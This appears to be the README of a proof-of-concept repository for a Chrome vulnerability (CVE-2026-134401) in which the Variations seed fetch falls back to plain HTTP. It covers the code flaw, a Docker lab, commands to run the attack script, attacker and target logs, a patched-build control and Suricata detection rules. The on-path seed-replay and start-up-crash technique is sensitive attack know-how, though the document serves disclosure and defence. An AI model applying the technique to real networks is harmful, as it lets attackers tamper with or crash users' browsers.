

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/al4n4n/achilles-heel/stargazers"></a>
  
  
  
  
</p>

<p align="center">
  <a href="#the-trigger">PoC</a> · <a href="#detection-rules">Detection</a> · <a href="#capture">Capture</a> · <a href="#evidence">Evidence</a> · <a href="#what-this-repo-proves-and-does-not-prove">Claims</a> · <a href="https://blog.al4n4n.com/CVE-2026-134401-Chrome-Variations-HTTP-Seed-Fallback/">Write-up</a>
</p>

---

## Disclaimer

For learning and defense only. Run the lab and PoC only against targets you set up yourself. The detection rules are for education only; use them at your own risk. Everything here is provided as is, without warranty. Full text: [DISCLAIMER](../DISCLAIMER.md).

# CVE-2026-134401: Chrome Variations Seed Fetch Falls Back to Plain HTTP

**CWE-20** | Improper input validation | Google Chrome before 158.0.8127.88 | Attacker on the network path to `clientservices.googleapis.com`

The CVE record describes this bug as improper input validation in Variations that "allowed a remote attacker to potentially execute arbitrary code outside the sandbox via a crafted HTML page". Chromium rates it Critical; the CVSS score, from CISA-ADP, is 9.6 (`CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H`).

This repository demonstrates a lower impact, and the whole path to it, with proof from the target at each step. An attacker on the network path, with no credentials and no user interaction, makes Chrome 158.0.8127.36 fetch its variations seed over plain HTTP. Chrome then stores and applies a Google-signed seed of the attacker's choosing, accepts an unsigned `304 Not Modified` as a successful fetch, and, once served the signed crash-test seed of Chromium's own test suite, terminates itself during its next start-up with exit status 211. Chrome 158.0.8127.88 never sends the plain-HTTP request. Code execution outside the sandbox was not reached; the [claims table](#what-this-repo-proves-and-does-not-prove) says what was tried.

**Author:** al4n4n (Dadb0d)

**Write-up:** [blog.al4n4n.com/CVE-2026-134401-Chrome-Variations-HTTP-Seed-Fallback/](https://blog.al4n4n.com/CVE-2026-134401-Chrome-Variations-HTTP-Seed-Fallback/)

**Fixed in:** Chrome 158.0.8127.88 ([commit 4338319](https://chromium.googlesource.com/chromium/src/+/4338319acf983a97b8c2e99031281f11512f8db5))

---

## The bug

Chrome's Variations service downloads a *seed*: a signed protobuf listing the field trials and feature switches the browser applies at its next start. It comes from `https://clientservices.googleapis.com/chrome-variations/seed`. When that fetch fails, Chrome before 158.0.8127.88 repeats it at once over `http://`. From `components/variations/service/variations_service.cc` at tag 158.0.8127.36, line comment added:

```cpp
bool VariationsService::MaybeRetryOverHTTP() {           // line 1336
  if (!last_request_was_http_retry_ &&
      !insecure_variations_server_url_.is_empty() &&
      insecure_variations_server_url_.SchemeIs(url::kHttpScheme)) {
    last_request_was_http_retry_ = true;
    FetchSeedOverHTTP();
    return true;
  }
  return false;
}
```

Whoever can break the HTTPS connection can therefore answer in clear text, and `OnSimpleLoaderComplete` trusts that answer in two ways.

A `200` body is gunzipped, delta-patched if the `IM` header says so, parsed as protobuf, and only then checked against the `X-Seed-Signature` header with the ECDSA P-256 key built into Chrome. A valid signature is all that is required. Nothing ties a seed to a date, a channel, a platform or a purpose, and over HTTP no seed date is recorded, so any seed ever signed with that key is accepted.

A `304` is accepted with no authentication of any kind. Chrome records a successful fetch: the last fetch time becomes now, the crash and fetch-failure counters that drive variations safe mode are zeroed, and the seed the session is running is saved as the *safe seed*.

The attacker cannot write a seed, only choose among signed ones. One of those is public and was never meant for users: `CrashingSeedData()` in `components/variations/variations_test_utils.cc`, 378 bytes, whose single study enables `ForceFieldTrialSetupCrashForTesting` for every channel and platform. Shipping Chrome contains the consumer: with that feature on, `VariationsFieldTrialCreator::SetUpFieldTrials` calls `base::Process::TerminateCurrentProcessImmediately(0x7E57C0D3)`, and `0xD3` is 211.

The fix adds a feature, `kVariationsHttpFallback`, disabled by default, and makes the function check it first:

```diff
-  if (!last_request_was_http_retry_ &&
+  if (base::FeatureList::IsEnabled(kVariationsHttpFallback) &&
+      !last_request_was_http_retry_ &&
```

## Trigger conditions

| # | Condition |
|---|---|
| 1 | Google-branded Chrome older than 158.0.8127.88. Chromium and Chrome for Testing builds do not fetch seeds unless `--variations-server-url` is given. |
| 2 | The attacker is on the network path to `clientservices.googleapis.com`: able to make the HTTPS fetch fail (a TCP reset is enough) and to answer TCP port 80 for that name. |
| 3 | Two failed HTTPS fetches when the failure starts at browser launch: the first failed request of a session only schedules a retry 5 minutes later, and the fallback follows that retry. From the code, one failed HTTPS fetch is enough for any later periodic fetch (every 30 minutes); not observed in the shipped evidence. |
| 4 | For a `200` answer, a seed with a genuine Google signature. Any Chrome client can download the current one from the public endpoint; the crash-test seed is in the Chromium source tree. A `304` needs nothing. |
| 5 | No user interaction and no page load. The advisory's "crafted HTML page" and `UI:R` belong to the part of the chain that is not public. |

## Tested on

| Product version | Host OS | Arch | Date | Result |
|---|---|---|---|---|
| Google Chrome 158.0.8127.36 (vulnerable), Google's stable `.deb` for Linux | Debian bookworm container, Docker Desktop (engine 29.9.3) on macOS | arm64 | 2026-11-27 | plain-HTTP fallback; replayed seed stored and applied; `304` accepted; crash-test seed stored; next start exits with status 211. 1/1 |
| Google Chrome 158.0.8127.88 (patched), same package source | same | arm64 | 2026-11-27 | four HTTPS attempts, no plain-HTTP request, nothing stored |

Affected per advisory: Chrome before 158.0.8127.88 on Windows, macOS and Linux (fixed in 158.0.8127.88 for Linux and 158.0.8127.88/.89 for Windows and macOS). Tested by us: the rows above. Windows and macOS builds, the amd64 image and a plain Linux Docker host were not run.

## Lab deviations

| Deviation | Why | Effect on real-world exploitability |
|---|---|---|
| `clientservices.googleapis.com` resolves to the lab gateway through the victim container's `/etc/hosts` | Stands in for the attacker's on-path position (rogue Wi-Fi, ARP or DNS spoofing, a hostile upstream router) | None on the bug; it is the precondition. A real attacker needs that network position. No browser setting is changed |
| The gateway relays ports 80 and 443 to `poc.py` on the lab host | `poc.py` runs on the host and is still the server the browser reaches | None; bytes are relayed unchanged |
| `internal` Docker network | Keeps the lab browser away from real Google services | None on the bug. A real victim still reaches other hosts; only the seed host has to be intercepted |
| `seccomp=unconfined` on the victim containers | Docker's default seccomp profile blocks the user namespaces Chrome's sandbox needs | None; Chrome runs with its sandbox on, as on a desktop, and not with `--no-sandbox` |
| Xvfb virtual display, no D-Bus session | A container has no desktop | None on the Variations service |
| `--no-first-run --no-default-browser-check`, a dedicated `--user-data-dir`, an empty profile per round | No first-run dialogs, and a starting state in which the first request provably has no stored seed | None on the bug. A profile that already holds a seed is attacked the same way |
| The victim driver starts the browser when `poc.py` is listening and restarts it after 345 s | Deterministic timing: Chrome's retry after a first failed fetch comes after 5 minutes | None; a real attacker waits for the victim's own schedule |
| `SESSIONS=4`: the driver opens the browser four times on one profile (default two) | One round then covers the replay, the `304` and the crash-test seed | None; a real user restarts the browser on their own schedule |
| Linux arm64 build in Docker Desktop on macOS | Google publishes pinned `.deb` packages for the last vulnerable and the first fixed release; a second branded Chrome on the Mac would register with the updater of the host's own Chrome and could be updated in place | The advisory covers Windows, macOS and Linux; only Linux was tested |

## Files

| File | Purpose |
|---|---|
| `setup.py` | Builds and starts the vulnerable and patched victims and their gateways, prints both Chrome versions; `--down` stops the lab |
| `poc.py` | The trigger: plays the on-path attacker on 127.0.0.1. `--target`, `--rounds`, `--timeout` |
| `lab/docker-compose.yml` | Lab topology: two victims, two gateways, one internal network |
| `lab/Dockerfile.victim` | Victim image: Google's Chrome `.deb` at a pinned version, sha256-checked |
| `lab/gateway.py` | Relays the victim's port 80 and 443 traffic, unchanged, to `poc.py` |
| `lab/victim.py` | Plays the user: opens and closes Chrome, then records the profile's variations state and the exit status |
| `poc/replayed-seed.gz` | Google's stable seed as its server sent it on 2026-11-26 |
| `poc/replayed-seed.headers` | The `IM` and `X-Seed-Signature` headers that came with it |
| `poc/crash-test-seed.gz` | The crash-test seed from the Chromium source tree, unmodified |
| `poc/crash-test-seed.headers` | Its signature and provenance |
| `capture/exploit.pcap` | Live capture of the attack on the vulnerable victim |
| `capture/README.md` | Capture checksum, provenance and packet timeline |
| `detection/cve-2026-134401.rules` | Suricata rules, sid 1000001 and 1000002 (experimental) |
| `detection/README.md` | Rule documentation and limits |
| `evidence/` | Raw output of the cited runs ([INDEX](evidence/INDEX.md)) |
| `meta.json` | Entry metadata for the repository index |
| `poster.png` | Poster image (1200x630) |
| `README.md` | This write-up |

## Repository structure

```
CVE-2026-134401/
├── README.md
├── meta.json
├── poster.png
├── setup.py
├── poc.py
├── lab/
│   ├── docker-compose.yml
│   ├── Dockerfile.victim
│   ├── gateway.py
│   └── victim.py
├── poc/
│   ├── replayed-seed.gz
│   ├── replayed-seed.headers
│   ├── crash-test-seed.gz
│   └── crash-test-seed.headers
├── capture/
│   ├── exploit.pcap
│   └── README.md
├── detection/
│   ├── cve-2026-134401.rules
│   └── README.md
└── evidence/ -> see evidence/INDEX.md
```

## Usage

Prerequisites: Docker Desktop on an Apple-silicon Mac, the only host we ran; Python 3.9 or later, standard library only (our runs used 3.15); about 3 GB of disk for the two images; Internet access while they build. `poc.py` listens on 127.0.0.1 only, and no lab port is published.

```sh
SESSIONS=4 python3 setup.py               # builds and starts the lab; prints "Google Chrome 158.0.8127.36" and "Google Chrome 158.0.8127.88" with their .deb sha256
python3 poc.py --target 127.0.0.1:18401   # vulnerable, about 18 minutes; last line "RESULT: IMPACT OBSERVED - [...] (exit 0)"
python3 poc.py --target 127.0.0.1:18402   # fixed, about 6 minutes; last line "RESULT: NO IMPACT - [...] (exit 1)"
cat .lab/vuln/$(cat .lab/vuln/latest)/target.log   # target side of the last vulnerable round; "session 4: Chrome exited on its own, status 211"
python3 setup.py --down                   # teardown; prints the command that removes the two images
```

The two `poc.py` commands can run at the same time; each browser starts when `poc.py` occupies its on-path position. `poc.py` never touches the victim: the target log is written by the lab and is not part of the attack.

## The trigger

`poc.py` resets every TLS connection for the seed host and answers what follows in clear text. From `evidence/poc-vuln.txt`:

```
[...]
2026-11-27T00:54:50Z [*] HTTPS attempt 3: TLS ClientHello for 'clientservices.googleapis.com' (2033 bytes) -> connection reset
2026-11-27T00:54:50Z [*] HTTPS attempt 4: TLS ClientHello for 'clientservices.googleapis.com' (1937 bytes) -> connection reset
2026-11-27T00:54:50Z [+] PLAINTEXT seed request from the target (HTTP fallback):
2026-11-27T00:54:50Z       GET /chrome-variations/seed?osname=linux&channel=stable&milestone=158 HTTP/1.1
2026-11-27T00:54:50Z       Host: clientservices.googleapis.com
2026-11-27T00:54:50Z       Connection: keep-alive
2026-11-27T00:54:50Z       A-IM: gzip
[...]
2026-11-27T00:54:50Z [+] answered 200 with the replayed seed: 41920 bytes, sha256 78a6d7456ede81740e067bee1c5d9181c8c76ee6c679a5c15bf5592cfbe6ac2f, IM: gzip
[...]
2026-11-27T01:00:37Z [+] PLAINTEXT seed request from the target (HTTP fallback):
2026-11-27T01:00:37Z       GET /chrome-variations/seed?osname=linux&channel=stable&milestone=158 HTTP/1.1
[...]
2026-11-27T01:00:37Z       If-None-Match: CmMDMxoFyixnLefRGaP5SpJRiPz5o313i+p4bO68E6Cih6SAgdA5M8oNmehgsC4jrheqktEeM+T2G+J/wLin3TWF4yKZfvCDailwAzSVrEsncc/OMU1Qt0rGw6+plbxMkmYCh9EQARogCkRG+ImeLVwepvdrRAI7jk5tupkG59FvAVzFcPviXgwgAQ==
2026-11-27T01:00:37Z       A-IM: x-bm,gzip
[...]
2026-11-27T01:00:37Z [+] PROOF FROM THE TARGET: the request above carries If-None-Match (188 characters, the stored seed's serial number, encrypted by Chrome) and 'A-IM: x-bm,gzip'
2026-11-27T01:00:37Z     Chrome sends these only when it holds a stored seed. Its previous request had neither, and the only seed it was offered on this path is the replayed one.
2026-11-27T01:00:37Z [+] answered 304 Not Modified (no signature, no Date)
[...]
2026-11-27T01:06:24Z [+] PLAINTEXT seed request from the target (HTTP fallback):
[...]
2026-11-27T01:06:24Z [*] same profile as before: If-None-Match is present (188 characters)
2026-11-27T01:06:24Z [+] answered 200 with the crash-test seed: 239 bytes, sha256 644542fcfb26e2eac0c84aec87e94af359399fcbd546397def1897b9d23209dd, IM: gzip
[...]
2026-11-27T01:06:24Z [*] staying on-path 58s: the browser is restarted in that time and, if it comes up, asks for a seed again ...
2026-11-27T01:07:22Z [+] no connection from the target in the 58s since the crash-test seed was served; after the earlier answers the restarted browser was back after 47 s and 47 s
2026-11-27T01:07:22Z     That silence is all the network shows. Whether the browser terminated during start-up is recorded on the target: the lab's target log gives the exit status of that start (211 when Chrome applied the crash-test seed).
2026-11-27T01:07:22Z [+] round 1: seed injection confirmed by the target
rounds with impact: 1/1
RESULT: IMPACT OBSERVED - the target fetched its variations seed over plain HTTP and stored the seed chosen by the on-path attacker (exit 0)
```

The second request is the target's own proof that it kept the first answer: Chrome sends `If-None-Match` and `A-IM: x-bm,gzip` only when it holds a stored seed. After the third answer the network shows nothing: a browser that dies during start-up never asks for a seed. From `evidence/target-vuln.txt`, written by the lab's victim driver, which reads the profile only after each browser exit:

```
2026-11-27T00:49:49Z round 20261127T004949Z: Google Chrome 158.0.8127.36
[...]
2026-11-27T00:50:05Z session 1: 14 Chrome processes, types ['gpu-process', 'renderer', 'utility', 'zygote'], --no-sandbox present: False
2026-11-27T00:55:35Z session 1: Chrome closed, status 0
2026-11-27T00:55:37Z profile state after session 1:
[...]
2026-11-27T00:55:37Z   VariationsSeedV2: seed = 180921 bytes sha256=4c5c4ec16c017d3b56237bbb53901f2075d077838d70b608cf15c41de3b7db46 serial=SMChYyMDI2MTEyNC0xMjE1MzUuMjgwMDAwEgsIAhADGJ4BIAAoAQ==#m+cJ03rACI4=
[...]
2026-11-27T00:55:37Z   VariationsSeedV2: milestone = 158, seed_date = 0 (not set), client_fetch_time = 2026-11-27T00:54:50Z
2026-11-27T00:55:37Z   VariationsSafeSeedV2: seed = empty
[...]
2026-11-27T01:01:24Z profile state after session 2:
[...]
2026-11-27T01:01:24Z   Local State variations_last_fetch_time = 2026-11-27T01:00:37Z
[...]
2026-11-27T01:01:24Z   Local State variations_failed_to_fetch_seed_streak = 0
[...]
2026-11-27T01:01:24Z   VariationsSeedV2: seed = alias 'safe_seed_content'
[...]
2026-11-27T01:01:24Z   VariationsSafeSeedV2: seed = 180921 bytes sha256=4c5c4ec16c017d3b56237bbb53901f2075d077838d70b608cf15c41de3b7db46 serial=SMChYyMDI2MTEyNC0xMjE1MzUuMjgwMDAwEgsIAhADGJ4BIAAoAQ==#m+cJ03rACI4=
[...]
2026-11-27T01:07:09Z session 3: Chrome closed, status 0
2026-11-27T01:07:11Z profile state after session 3:
2026-11-27T01:07:11Z   Local State variations_seed_serial_number = 35ed2d9e354b414befdf930a734094019c0162f1
[...]
2026-11-27T01:07:11Z   VariationsSeedV2: seed = 378 bytes sha256=39a7693c1b69b9267cf14cb13753c0713f8820806ca1fbfb24ce48544a2c7d37 serial=35ed2d9e354b414befdf930a734094019c0162f1
[...]
2026-11-27T01:07:11Z session 4: Chrome started (pid 1441), open for 345s
2026-11-27T01:07:26Z session 4: Chrome exited on its own, status 211
[...]
```

`4c5c4ec1...` is the sha256 of the gunzipped `poc/replayed-seed.gz`, and the 378-byte seed is the gunzipped `poc/crash-test-seed.gz`. Chrome fills the safe seed only from the seed it is running, so in session 2 the replayed seed was applied, not just stored. Session 4 ended by itself with status 211; the earlier sessions were closed by the driver with status 0. The driver polls every 15 seconds, so the exit is logged up to 15 seconds late.

## Negative control

The same `poc.py` against Chrome 158.0.8127.88, started at the same moment (`evidence/poc-patched.txt`):

```
2026-11-27T00:49:47Z [*] on-path at 127.0.0.1:18402; replayed seed replayed-seed.gz (41920 bytes), crash-test seed crash-test-seed.gz (239 bytes); waiting for the victim browser
2026-11-27T00:49:47Z [*] round 1/1
2026-11-27T00:49:50Z [*] HTTPS attempt 1: TLS ClientHello for 'clientservices.googleapis.com' (2033 bytes) -> connection reset
2026-11-27T00:49:50Z [*] HTTPS attempt 2: TLS ClientHello for 'clientservices.googleapis.com' (2001 bytes) -> connection reset
2026-11-27T00:54:50Z [*] HTTPS attempt 3: TLS ClientHello for 'clientservices.googleapis.com' (1969 bytes) -> connection reset
2026-11-27T00:54:50Z [*] HTTPS attempt 4: TLS ClientHello for 'clientservices.googleapis.com' (2001 bytes) -> connection reset
2026-11-27T00:55:30Z [-] Chrome's 5-minute retry over HTTPS was reset 40s ago and no plain-HTTP request followed: this browser does not fall back to HTTP
2026-11-27T00:55:30Z [-] round 1: no impact
rounds with impact: 0/1
RESULT: NO IMPACT - the target did not accept a seed over plain HTTP (exit 1)
```

Target side, from `evidence/target-patched.txt`:

```
2026-11-27T00:49:48Z round 20261127T004948Z: Google Chrome 158.0.8127.88
[...]
2026-11-27T00:50:04Z session 1: 14 Chrome processes, types ['gpu-process', 'renderer', 'utility', 'zygote'], --no-sandbox present: False
2026-11-27T00:55:35Z session 1: Chrome closed, status 0
2026-11-27T00:55:37Z profile state after session 1:
2026-11-27T00:55:37Z   Local State variations_seed_serial_number = (absent)
[...]
2026-11-27T00:55:37Z   Local State variations_failed_to_fetch_seed_streak = 2
[...]
2026-11-27T00:55:37Z   VariationsSeedV2: seed = empty
2026-11-27T00:55:37Z   VariationsSafeSeedV2: seed = empty
2026-11-27T00:55:37Z round: on-path position is empty, no further session
[...]
```

## Reliability

The chain is deterministic, so `--rounds` defaults to 1; only the run above ships as evidence. The denial of service is bounded by design: Chrome's variations safe mode exists to recover from a seed that breaks start-up, and the shipped evidence shows the first failed start only. One limit of `poc.py`: it decides "no fallback" 40 seconds after the 5-minute retry was reset, assuming the browser learns at once that HTTPS failed.

## Downstream impact

The advisory covers Chrome for desktop on Windows, macOS and Linux and names no other product. Other Chromium-based browsers were not examined.

## Detection rules

**Experimental / minimally validated.** Each rule was tested only against the attack capture in this repository and one benign sample. No coverage or false-positive rate is claimed.

| Rule | Matches | Result of the one test |
|---|---|---|
| [Suricata sid 1000001](detection/cve-2026-134401.rules) | A plain-HTTP `GET /chrome-variations/seed` with `osname=`, `channel=` and `milestone=` to host `clientservices.googleapis.com` | Fired on the three fallback requests in `capture/exploit.pcap` (packets 28, 72, 106); silent on a capture of the patched browser, which holds only TLS attempts |
| Suricata sid 1000002, same file | A plain-HTTP response that carries `X-Seed-Signature` | Fired on the two `200` answers (packets 30, 108); silent on the same benign capture |

Limits: the sensor must see plain HTTP between the client and the Internet. The unsigned `304` is not matched, because a bare `304` would be too noisy. No Sigma rule ships: Chrome writes the fallback to no standard log source. The lab capture needs `suricata -k none`, since Docker offloads TCP checksums. Details: [detection README](detection/README.md).

## Capture

[`capture/exploit.pcap`](capture/exploit.pcap) is a live tcpdump capture from the vulnerable victim's interface during the run shown above: 112 packets, 77,305 bytes, sha256 `85df71c4ed28730c58133ce05f24254e7356d2881132dff1bb6887fb076bedba`, the same checksum the target log records. It holds the three plain-HTTP exchanges (packets 28/30, 72/74 and 106/108) between the reset TLS attempts, and nothing from session 4. Timeline: [capture README](capture/README.md).

```sh
tcpdump -n -A -r capture/exploit.pcap 'tcp port 80'
```

## Evidence

The four files come from one lab run on 2026-11-27 and are saved unedited; [`evidence/INDEX.md`](evidence/INDEX.md) maps each to its command and claim.

## What this repo proves (and does not prove)

| Claim | Status | Evidence |
|---|---|---|
| Chrome 158.0.8127.36 repeats a failed HTTPS seed fetch over plain HTTP; the request is readable on the wire | **Proven** | `evidence/poc-vuln.txt`; `capture/exploit.pcap` (packets 28, 72, 106) |
| Chrome stores the Google-signed seed replayed by the on-path attacker as its current seed, with no seed date | **Proven** | `evidence/poc-vuln.txt` (`If-None-Match` on the next request); `evidence/target-vuln.txt` (after session 1) |
| The replayed seed is applied at the next start; an unauthenticated `304` then refreshes its fetch time, resets the failure counters and makes it the safe seed | **Proven** | `evidence/target-vuln.txt` (after session 2); `evidence/poc-vuln.txt` |
| Chrome also stores the crash-test seed of Chromium's test suite when the attacker serves it, and at its next start terminates itself during start-up with exit status 211 | **Proven** | `evidence/poc-vuln.txt` (third answer, then silence); `evidence/target-vuln.txt` (after session 3, and session 4) |
| Chrome 158.0.8127.88 does not fall back: no plain-HTTP request, nothing stored | **Confirmed** (negative control run) | `evidence/poc-patched.txt`; `evidence/target-patched.txt` |
| Code execution outside the sandbox, the disclosed impact | **Not reached** | No command ran on the target. Tried through the stock browser, lab notes only: malformed and oversized protobuf ahead of the signature check (rejected, or memory use only); a delta answer and a response body that grow past the allocator's 2 GiB limit (the browser aborts on purpose, with no out-of-bounds read or write); replay of other signed seeds: only three were at hand (the current stable seed and two test seeds), and none was found to switch on something exploitable from a page. Gaps: no memory-corruption or code-loading step was found, and a signed seed that switches on an exploitable feature would also need a flaw in that feature |
| A seed written by the attacker (arbitrary feature flags) | **Not reached** | One flipped byte, a missing signature, degenerate signature values and a valid signature borrowed from another seed were all rejected, and nothing was stored |
| The advisory's "crafted HTML page" | **Not reached** | Not used by anything here; its role in the chain is not public |
| Chrome on Windows and macOS, and amd64 Linux | **Not reached** | Not run |

- **Proven**: the evidence file is in the repo.
- **Confirmed**: the negative control was run.
- **Not reached**: tried, with what was tried. This is a limit of this work, not of the bug: the CVE record says code execution outside the sandbox may be possible, and nothing here contradicts that.

## References

- [Chrome Releases: Stable Channel Update for Desktop, 2026-11-23](https://chromereleases.googleblog.com/2026/11/stable-channel-update-for-desktop_01734282054.html)
- [CVE-2026-134401](https://www.cve.org/CVERecord?id=CVE-2026-134401)
- [Fix commit 4338319, "Disable VariationsService HTTP fallback by default"](https://chromium.googlesource.com/chromium/src/+/4338319acf983a97b8c2e99031281f11512f8db5)
- [Chromium issue 554051967](https://issues.chromium.org/issues/554051967) (access restricted)

## Changelog

- 2026-11-27: published.

## License

Part of [achilles-heel](https://github.com/al4n4n/achilles-heel), licensed under [CC BY 4.0](../LICENSE). Anyone who shares or builds on this work, commercial or not, must credit "al4n4n (Dadb0d)" and link to https://github.com/al4n4n/achilles-heel. See [Attribution](../README.md#attribution) and [DISCLAIMER](../DISCLAIMER.md).

<sub>CVE-2026-134401 Google Chrome Chromium Variations Finch field trials seed VariationsService MaybeRetryOverHTTP kVariationsHttpFallback clientservices.googleapis.com chrome-variations X-Seed-Signature If-None-Match 304 Not Modified safe seed CrashingSeedData ForceFieldTrialSetupCrashForTesting exit 211 CWE-20 improper input validation HTTP fallback downgrade on-path man-in-the-middle signed seed replay start-up denial of service sandbox escape poc exploit pcap suricata detection</sub>

<!-- citation:start -->
## Cite this research

> al4n4n (Dadb0d). Chrome Variations HTTP seed fallback: signed-seed replay and start-up denial of service (CVE-2026-134401). *achilles-heel*, added 2026-11-27. <https://github.com/al4n4n/achilles-heel/tree/main/CVE-2026-134401>. [Research article](https://blog.al4n4n.com/CVE-2026-134401-Chrome-Variations-HTTP-Seed-Fallback/).
<!-- citation:end -->
